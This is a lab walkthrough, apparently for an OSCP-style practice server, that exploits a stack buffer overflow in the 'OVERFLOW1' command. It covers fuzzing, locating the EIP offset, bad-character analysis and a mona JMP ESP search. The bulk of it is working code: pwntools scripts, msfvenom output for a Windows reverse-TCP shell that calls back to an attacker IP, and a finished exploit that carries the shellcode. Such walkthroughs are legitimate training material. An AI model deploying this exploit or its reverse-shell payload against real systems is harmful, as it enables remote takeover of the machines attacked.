




# BufferOverflow 1
IP - 10.10.4.231
Port - 1337

***
# Running the program.
First we launch the `Immunity Debugger`.
Now we click on file and import the binary.
After that we run the file bu clicking on the play button.
# Fuzzing
First we a program to fuzz the application.
Means it will send a number of characters and gradually increase the character untill the program crashes.
We have prepared a script for that : 
```py
from pwn import *
connection = remote("10.10.4.231" , 1337)
connection.recvuntil(b"Welcome to OSCP Vulnerable Server! Enter HELP for help.\n")
for i in range(1000):
	i = i * 50
	print(f"[*] Sending {i} number of A's")
	connection.send(f"OVERFLOW1 {i * 'A'}\n")
	connection.recvuntil(b"OVERFLOW1 COMPLETE")
connection.close()
```
We see the program crashed while sending `2000` bytes.
If we look at the `Immunity`, it also says that the program has been terminated.



Now we have a rough idea of where the program has crashed.
So now we could create a pattern of length upto 2000, to get the exact number of bytes.
We use `msf-pattern_create` to generate a pattern whose length is 2000.
```bash
$ msf-pattern_create -l 2000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co
```
Now we restart the program and send it again but manually, as we have to send this 1 time only.
```bash
$ nc 10.10.4.231 1337
Welcome to OSCP Vulnerable Server! Enter HELP for help.
OVERFLOW1 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co
```
Now we go back to the immunity, where we see the program has already been crashed.
So we use mona to find the `EIP` of the program.
On the console at the bottom we execute 
CMD : `!mona findmsp -distance 2000`
*Here we have used 2000, because the program crashes at 2000 bytes*.

We get the value of EIP here which is `1978`.
We can also determine that by copying the `HEX`data and using `msf-pattern_offset`.
```bash
$ msf-pattern_offset -q 0x6f43396e
[*] Exact match at offset 1978
```
Now as we have the exact match at `1978`, we prepare a script.
```py
from pwn import *

junk = "A" * 1978
padding = "BBBB"

payload = ""
retrn = ""

r = remote("10.10.4.231" , 1337)
r.recvuntil(b"Welcome to OSCP Vulnerable Server! Enter HELP for help.\n")
r.send(f"OVERFLOW1 {junk + retrn + payload}")
r.close()
```


## Finding bad characters.
Now for finding bad characters we have a sent a bunch of bad characters as payload which is downloaded from the internet and start manually finding them.
Badchars : 
```bash
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

After sending them and manually finding all the badchars we get 4 bad chars  : `\x00\x07\x2e\xa0`
*Remeber - If the there's a bad char present, the char after that bad char will also be missing. Here in this binary bad chars are denoted by `0D0A`*
## Finding the Jump pointer
Now we can find the `Jump Point` by using mona with the bad chars we found.
CMD : `!mona jmp -r esp -cpb ""\x00\x07\x2e\xa0"`



Now we pickup an address from here and set the value of return to that address.
We use `struct` here to convert the value into little endian.
We choose : `0x625011af`
## Generating a payload.
We generate a payload with `msfvenom`.
```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.17.1.115 LPORT=1337 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1712 bytes
buf =  b""
buf += b"\xba\x4b\x34\x91\x91\xd9\xe9\xd9\x74\x24\xf4\x5e\x2b"
buf += b"\xc9\xb1\x52\x31\x56\x12\x83\xee\xfc\x03\x1d\x3a\x73"
buf += b"\x64\x5d\xaa\xf1\x87\x9d\x2b\x96\x0e\x78\x1a\x96\x75"
buf += b"\x09\x0d\x26\xfd\x5f\xa2\xcd\x53\x4b\x31\xa3\x7b\x7c"
buf += b"\xf2\x0e\x5a\xb3\x03\x22\x9e\xd2\x87\x39\xf3\x34\xb9"
buf += b"\xf1\x06\x35\xfe\xec\xeb\x67\x57\x7a\x59\x97\xdc\x36"
buf += b"\x62\x1c\xae\xd7\xe2\xc1\x67\xd9\xc3\x54\xf3\x80\xc3"
buf += b"\x57\xd0\xb8\x4d\x4f\x35\x84\x04\xe4\x8d\x72\x97\x2c"
buf += b"\xdc\x7b\x34\x11\xd0\x89\x44\x56\xd7\x71\x33\xae\x2b"
buf += b"\x0f\x44\x75\x51\xcb\xc1\x6d\xf1\x98\x72\x49\x03\x4c"
buf += b"\xe4\x1a\x0f\x39\x62\x44\x0c\xbc\xa7\xff\x28\x35\x46"
buf += b"\x2f\xb9\x0d\x6d\xeb\xe1\xd6\x0c\xaa\x4f\xb8\x31\xac"
buf += b"\x2f\x65\x94\xa7\xc2\x72\xa5\xea\x8a\xb7\x84\x14\x4b"
buf += b"\xd0\x9f\x67\x79\x7f\x34\xef\x31\x08\x92\xe8\x36\x23"
buf += b"\x62\x66\xc9\xcc\x93\xaf\x0e\x98\xc3\xc7\xa7\xa1\x8f"
buf += b"\x17\x47\x74\x1f\x47\xe7\x27\xe0\x37\x47\x98\x88\x5d"
buf += b"\x48\xc7\xa9\x5e\x82\x60\x43\xa5\x45\x85\x85\xa4\xe6"
buf += b"\xf1\xa7\xa6\x0d\x3b\x21\x40\x67\x2b\x67\xdb\x10\xd2"
buf += b"\x22\x97\x81\x1b\xf9\xd2\x82\x90\x0e\x23\x4c\x51\x7a"
buf += b"\x37\x39\x91\x31\x65\xec\xae\xef\x01\x72\x3c\x74\xd1"
buf += b"\xfd\x5d\x23\x86\xaa\x90\x3a\x42\x47\x8a\x94\x70\x9a"
buf += b"\x4a\xde\x30\x41\xaf\xe1\xb9\x04\x8b\xc5\xa9\xd0\x14"
buf += b"\x42\x9d\x8c\x42\x1c\x4b\x6b\x3d\xee\x25\x25\x92\xb8"
buf += b"\xa1\xb0\xd8\x7a\xb7\xbc\x34\x0d\x57\x0c\xe1\x48\x68"
buf += b"\xa1\x65\x5d\x11\xdf\x15\xa2\xc8\x5b\x35\x41\xd8\x91"
buf += b"\xde\xdc\x89\x1b\x83\xde\x64\x5f\xba\x5c\x8c\x20\x39"
buf += b"\x7c\xe5\x25\x05\x3a\x16\x54\x16\xaf\x18\xcb\x17\xfa"
```
Our final exploit looks something like this :
```py
from pwn import *
import struct


preset = b"OVERFLOW1 "
junk = b"A" * 1978

payload =  b""
payload += b"\xbe\x6d\xb0\x8a\x53\xdb\xc0\xd9\x74\x24\xf4\x5b\x33"
payload += b"\xc9\xb1\x52\x31\x73\x12\x83\xeb\xfc\x03\x1e\xbe\x68"
payload += b"\xa6\x1c\x56\xee\x49\xdc\xa7\x8f\xc0\x39\x96\x8f\xb7"
payload += b"\x4a\x89\x3f\xb3\x1e\x26\xcb\x91\x8a\xbd\xb9\x3d\xbd"
payload += b"\x76\x77\x18\xf0\x87\x24\x58\x93\x0b\x37\x8d\x73\x35"
payload += b"\xf8\xc0\x72\x72\xe5\x29\x26\x2b\x61\x9f\xd6\x58\x3f"
payload += b"\x1c\x5d\x12\xd1\x24\x82\xe3\xd0\x05\x15\x7f\x8b\x85"
payload += b"\x94\xac\xa7\x8f\x8e\xb1\x82\x46\x25\x01\x78\x59\xef"
payload += b"\x5b\x81\xf6\xce\x53\x70\x06\x17\x53\x6b\x7d\x61\xa7"
payload += b"\x16\x86\xb6\xd5\xcc\x03\x2c\x7d\x86\xb4\x88\x7f\x4b"
payload += b"\x22\x5b\x73\x20\x20\x03\x90\xb7\xe5\x38\xac\x3c\x08"
payload += b"\xee\x24\x06\x2f\x2a\x6c\xdc\x4e\x6b\xc8\xb3\x6f\x6b"
payload += b"\xb3\x6c\xca\xe0\x5e\x78\x67\xab\x36\x4d\x4a\x53\xc7"
payload += b"\xd9\xdd\x20\xf5\x46\x76\xae\xb5\x0f\x50\x29\xb9\x25"
payload += b"\x24\xa5\x44\xc6\x55\xec\x82\x92\x05\x86\x23\x9b\xcd"
payload += b"\x56\xcb\x4e\x41\x06\x63\x21\x22\xf6\xc3\x91\xca\x1c"
payload += b"\xcc\xce\xeb\x1f\x06\x67\x81\xda\xc1\x82\x47\xe5\x62"
payload += b"\xfb\x65\xe5\x81\xc2\xe0\x03\xe3\x24\xa5\x9c\x9c\xdd"
payload += b"\xec\x56\x3c\x21\x3b\x13\x7e\xa9\xc8\xe4\x31\x5a\xa4"
payload += b"\xf6\xa6\xaa\xf3\xa4\x61\xb4\x29\xc0\xee\x27\xb6\x10"
payload += b"\x78\x54\x61\x47\x2d\xaa\x78\x0d\xc3\x95\xd2\x33\x1e"
payload += b"\x43\x1c\xf7\xc5\xb0\xa3\xf6\x88\x8d\x87\xe8\x54\x0d"
payload += b"\x8c\x5c\x09\x58\x5a\x0a\xef\x32\x2c\xe4\xb9\xe9\xe6"
payload += b"\x60\x3f\xc2\x38\xf6\x40\x0f\xcf\x16\xf0\xe6\x96\x29"
payload += b"\x3d\x6f\x1f\x52\x23\x0f\xe0\x89\xe7\x2f\x03\x1b\x12"
payload += b"\xd8\x9a\xce\x9f\x85\x1c\x25\xe3\xb3\x9e\xcf\x9c\x47"
payload += b"\xbe\xba\x99\x0c\x78\x57\xd0\x1d\xed\x57\x47\x1d\x24"


retrn = struct.pack("I" , 0x625011af)
padding = b"\x90" * 16

exploit = preset + junk + retrn + padding + payload

r = remote("10.10.4.231" , 1337)
r.recvuntil(b"Welcome to OSCP Vulnerable Server! Enter HELP for help.\n")
r.send(exploit + b"\n")
r.close()
```
We run that exploit and get a shell.

***


